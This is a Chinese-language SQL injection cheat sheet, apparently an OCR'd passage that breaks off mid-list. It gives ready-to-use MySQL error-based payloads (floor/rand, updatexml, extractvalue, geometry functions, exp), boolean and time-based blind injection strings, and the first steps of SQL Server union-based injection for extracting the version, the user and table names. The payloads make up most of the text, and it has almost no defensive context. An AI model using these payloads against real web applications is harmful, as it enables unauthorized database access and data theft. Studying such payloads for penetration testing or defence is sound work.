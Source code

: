 ### **1.3 MySQL 报错注入**

mysql 暴错注入方法整理，通过 floor，UpdateXml，ExtractValue，NAME_CONST，Error based Double Query Injection 等方法。

多种报错注入方式：

```
and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a);
and (select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2)));
and extractvalue(1, concat(0x5c, (select VERSION() from information_schema.tables limit 1)))
and 1=(updatexml(1,concat(0x3a,(select user())),1))
and GeometryCollection((select*from(select*from(select @@version)f)x))
and polygon((select*from(select name_const(version(),1))x))
and linestring((select * from(select * from(select user())a)b))
and multilinestring((select * from(select * from(select version())a)b));
and multipoint((select * from(select * from(select user())a)b));
and multipolygon((select * from(select * from(select user())a)b));
and exp(~(select * from(select version())a));

```

### **1.4 MySQL 盲注**

基于布尔型注入

```
id=1 and (select length(user()))=20 # 返回正常页面  长度20位
id=1 and ascii(substring((SELECT username FROM users limit 0,1),1,1))=97
//截取username第一个数据的ascii值

```

基于时间型注入

```
1 xor (if(ascii(mid(user()from(1)for(1)))='r',sleep(5),0))
1 xor if(ascii(substr(user(),1,1)) like 1124,benchmark(1000000, md5('1')),'2')

```

### **0x02 SQLServer**

SA 权限：数据库操作，文件管理，命令执行，注册表读取等  

Db 权限：文件管理，数据库操作等

Public 权限：数据库操作

**2.1 SQLServer 联合查询**

```
1.判断是否存在注入
    ?id=1 and 1=1--  返回正确
    ?id=1 and 1=2--  返回错误

2.获取字段数
    ?id=1 order by 2-- 返回正确页面  
    ?id=1 order by 3-- 返回错误页面    字段长度为2

3.查看数据库版本
    ?id=1 and 1=2 union select  db_name(),null   //获得当前数据库

4.查看表名
    ?id=1 and 1=2 union select  top 1  TABLE_NAME ,2 from INFORMATION_SCHEMA.TABLES where table_name not in ('users') 

5.查看列名
```